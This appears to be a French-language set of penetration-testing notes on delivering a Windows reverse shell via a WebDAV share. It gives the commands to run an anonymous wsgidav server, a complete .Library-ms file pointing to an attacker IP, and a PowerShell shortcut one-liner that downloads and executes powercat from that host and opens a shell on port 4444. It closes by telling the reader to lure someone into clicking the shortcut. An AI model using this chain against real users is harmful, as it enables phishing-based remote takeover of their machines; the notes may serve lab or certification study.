 Utiliser webDAV pour partager un raccourci qui exécute un reverse shell

# webDAV
Protocole de version et partage de fichiers. Peut s'inclure dans un .Library-ms.
On lance un serveur avec:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
pip3 install wsgidav
mkdir /home/corsaire/webdav
touch /home/corsaire/webdav/test.txt
/home/corsaire/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Tester dans navigateur avec http://127.0.0.1

# config.library-ms

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<!-- pas important -->
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<!--Icone -1003 (Photos) -1002 (Document)-->
	<iconReference>imageres.dll,-1003</iconReference>
	<!-- GUID -->
	<templateInfo>
		<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<!--Spécifie la connexion-->
	<searchConnectorDescriptionList>
		<searchConnectorDescription>
			<isDefaultSaveLocation>true</isDefaultSaveLocation>
			<isSupported>false</isSupported>
			<simpleLocation>
				<url>http://192.168.45.239</url>
			</simpleLocation>
		</searchConnectorDescription>
	</searchConnectorDescriptionList>
</libraryDescription>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Note:** windows va modifier le fichier après l'avoir ouvert. Il pourrait ne pas fonctionner sur un autre PC ou redémarrage

# raccourci
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.239:80/windows/powercat.ps1');powercat -c 192.168.45.239 -p 4444 -e powershell"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Placer le raccourci dans le webDAV et encourager quelqu'un à l'ouvrir et cliquer sur le racourci